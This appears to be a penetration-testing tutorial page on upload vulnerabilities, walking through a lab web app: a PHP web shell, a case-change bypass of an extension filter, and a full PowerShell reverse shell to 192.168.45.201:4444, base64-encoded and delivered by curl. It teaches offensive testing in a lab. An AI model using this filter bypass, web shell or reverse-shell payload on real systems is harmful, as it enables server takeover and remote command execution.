





---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Using Executable Files

The easiest type of exploits involve the ability to upload executable file types to the vulnerable application and then cause them to be executed.

## Example

The following example will use an updated version of the Mountain Desserts web application that was used in the [File Inclusion](../file-inclusion/) examples.&#x20;

<figure><figcaption><p>Updated web application</p></figcaption></figure>

According to the text the web application has been updated. Note that it now offers a spot for uploading a picture to the application. The text also indicates the system has been switched to Windows.

<figure><figcaption><p>nmap scan of the HTTP port</p></figcaption></figure>

An nmap scan indicates that the application is likely built on an XAMPP stack.

First attempt to upload a `.txt` file in place of an image. This will validate the existence of a File Upload Vulnerability.

```shell-session
kali@kali:~$ echo "this is a test" > test.txt
```

Then upload `text.txt` to the application:

<figure><figcaption><p>Uploading text file successful</p></figcaption></figure>

Next attempt uploading the `/usr/share/webshells/php/simple-backdoor.php` file to the application:

<figure><figcaption><p>PHP file upload blocked</p></figcaption></figure>

Based on the message it would seem there is some type of file-type filter in place that is blocking the upload of `.php` files. Some trial and error will be required to overcome this filter.

First one could attempt to use a less common PHP file type extension such as:

* `.phtml` (common type will likely also be blocked)
* `.phps`
* `.php7`

None of these alternate file types were allowed by the Mountain Desserts application. Perhaps the filter was poorly implemented and will not detect file types with cases changed in the extension (E.g. `.pHP`):

<figure><figcaption><p>Successful PHP upload</p></figcaption></figure>

Fortunately, this simple technique bypassed the filter. Now the file can be accessed via `curl` (finding the upload location may take some trial and error but in this case it is `/uploads` as shown below):

```shell-session
kali@kali:~$ curl "http://mountaindesserts.com/meteor/uploads/simple-backdoor.pHP?cmd=dir"
 Volume in drive C has no label.
 Volume Serial Number is E6C8-741F

 Directory of C:\xampp\htdocs\meteor\uploads

09/19/2023  05:36 PM              .
05/03/2022  07:02 AM              ..
05/03/2022  06:21 AM                 0 $sock)
09/19/2023  05:36 PM               328 simple-backdoor.pHP
09/19/2023  05:28 PM                15 test.txt
               3 File(s)            343 bytes
               2 Dir(s)   6,911,913,984 bytes free
```

So basic command execution has been achieved. Now it is time to attempt a reverse shell. Because this is a Windows target, a PowerShell reverse shell will be used. A simple PowerShell reverse shell looks like:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.45.201",4444)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
    $sendback = (iex $data 2>&1 | Out-String )
    $sendback2 = $sendback + "PS " + (pwd).Path + "> "
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()
}

$client.Close()
```

All of this can be condensed into a one-liner:


```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.45.201",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```


For this example, PowerShell will be used to encode the payload. A PowerShell session can be started from the Linux command line via the `pwsh` command:

```shell-session
kali@kali:~$ pwsh
PowerShell 7.1.3
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

PS>
```

The actual encoding will be done as follows:

```powershell
PS> $Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.201",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

PS> $EncodedText =[Convert]::ToBase64String($Bytes)

PS> $EncodedText
JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADQANQAuADIAMAAxACIALAA0ADQANAA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```

The encoded text should then be included as the `?cmd` parameter of the `curl` command above (NOTE: full parameter is `?cmd=powershell%20-enc%20<EncodedCommand>`):


```shell-session
kali@kali:~$ curl "http://mountaindesserts.com/meteor/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADQANQAuADIAMAAxACIALAA0ADQANAA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=="
```


This results in a working reverse shell!
